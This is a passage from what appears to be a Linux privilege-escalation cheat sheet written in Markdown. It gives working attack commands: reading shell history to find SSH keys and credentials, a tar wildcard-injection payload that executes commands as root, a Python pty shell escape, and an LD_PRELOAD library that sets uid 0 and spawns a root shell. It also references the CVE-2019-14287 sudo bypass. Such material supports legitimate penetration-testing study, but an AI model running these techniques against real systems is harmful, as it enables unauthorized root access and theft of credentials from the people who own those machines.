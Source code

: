 Check bash history:
```bash
cat ~/.bash_history
```

Look for SSH private keys or other sensitive credentials.

## Network Services
Check listening services:
```bash
netstat -tuln
ss -tuln
```

Enumerate running services and associated configurations. For example:
- Check `rsync`, `FTP`, or `MySQL` services for misconfigurations.

## Wildcards Cheat Sheet
- Wildcards in commands like `tar`, `rsync`, and `scp` can be abused for privilege escalation.

### Example:
If a script uses wildcards without sanitization:
```bash
echo 'echo hacked > /root/hacked.txt' > --checkpoint-action=exec=sh
echo '' > --checkpoint=1
tar cf archive.tar *
```
This creates malicious files that execute commands when the wildcard is processed.

## Additional Techniques

### Shell Escaping
- Exploit interactive programs to escape to a shell.
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```

### Intended Functionality
- Abuse legitimate features of software for privilege escalation.

### LD_PRELOAD
- Exploit dynamic linker preload to inject malicious libraries.
  ```bash
  echo -e "#include <stdio.h>\n#include <stdlib.h>\nvoid _init() { setgid(0); setuid(0); system(\"/bin/bash\"); }" > /tmp/preload.c
  gcc -shared -fPIC -o /tmp/preload.so /tmp/preload.c
  LD_PRELOAD=/tmp/preload.so <vulnerable_command>
  ```

### CVE-2019-14287
- Exploit sudo bypass vulnerability where `ALL` in `sudoers` allows unintended command execution.

